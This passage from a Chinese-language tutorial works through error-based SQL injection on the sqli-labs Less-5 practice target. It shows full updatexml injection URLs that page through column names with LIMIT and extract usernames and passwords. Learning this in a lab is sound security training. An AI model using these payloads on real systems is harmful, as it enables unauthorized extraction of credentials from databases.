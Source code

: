 ***\*未分页：\****

其实在下图就可以看到，好像未显示完整，这是由于updatexml报错只能显示32位，所以在报错多的情况下需要进行分页。

使用limit参数进行控制，同时上面的group_concat(column_name)也需要改为column_name，因为group_concat()是获取全部。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' )),3)--+

![img](assets/YETS4RC5k7jKceA.jpg) 

我这里获取到的数据有点问题，暂时没有找到获取哪里的数据了，但是前面的测试都是能够正常获取的，不知道是不是最近又加了一些靶场存在一些冲突的数据。

***\*分页：\****

通过控制limit 后面的数量实现分页输出。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1)),3)--+

![img](assets/bt8iOXuFK1LemMB.jpg) 

#### 3.2.5.7.**确定数据库的字段名**

获取users列下的username值，可以通过控制limit的参数进行输出。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select username from users limit 0,1 )),3)--+

 

获取users列下的password值，可以通过控制limit的参数进行输出。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select password from users limit 0,1 )),3)--+

![img](assets/4f9EyFqWGetJmA2.jpg) 
